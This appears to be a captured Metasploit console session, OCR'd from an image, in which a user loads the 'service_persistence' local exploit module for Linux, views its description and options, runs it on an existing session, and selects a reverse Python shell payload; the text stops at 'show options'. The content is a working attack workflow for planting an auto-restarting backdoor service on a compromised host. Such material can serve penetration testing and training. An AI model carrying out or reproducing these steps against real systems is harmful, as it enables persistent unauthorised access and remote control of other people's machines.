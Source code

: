 ```
msf5 exploit(linux/local/cron_persistence) > use exploit/linux/local/service_persistence
msf5 exploit(linux/local/service_persistence) > info

       Name: Service Persistence
     Module: exploit/linux/local/service_persistence
   Platform: Unix, Linux
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 1983-01-01

Provided by:
  h00die <mike@shorebreaksecurity.com>
  Cale Black

Available targets:
  Id  Name
  --  ----
  0   Auto
  1   System V
  2   Upstart
  3   systemd
  4   systemd user

Check supported:
  No

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SERVICE                      no        Name of service to create
  SESSION                      yes       The session to run this module on.
  SHELLPATH   /usr/local/bin   yes       Writable path to put our shell
  SHELL_NAME                   no        Name of shell file to write

Payload information:

Description:
  This module will create a service on the box, and mark it for 
  auto-restart. We need enough access to write service files and 
  potentially restart services Targets: System V: CentOS <= 5 Debian 
  <= 6 Kali 2.0 Ubuntu <= 9.04 Upstart: CentOS 6 Fedora >= 9, < 15 
  Ubuntu >= 9.10, <= 14.10 systemd: CentOS 7 Debian >= 7, <=8 Fedora 
  >= 15 Ubuntu >= 15.04 Note: System V won't restart the service if it 
  dies, only an init change (reboot etc) will restart it.
```

```
msf5 exploit(linux/local/service_persistence) > set SESSION 4
SESSION => 4
msf5 exploit(linux/local/service_persistence) > exploit

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/local/service_persistence) > set payload cmd/unix/
set payload cmd/unix/bind_netcat         set payload cmd/unix/reverse_python      
set payload cmd/unix/reverse_netcat      set payload cmd/unix/reverse_python_ssl  
msf5 exploit(linux/local/service_persistence) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/local/service_persistence) > show options

Module options (exploit/linux/local/service_persistence):

```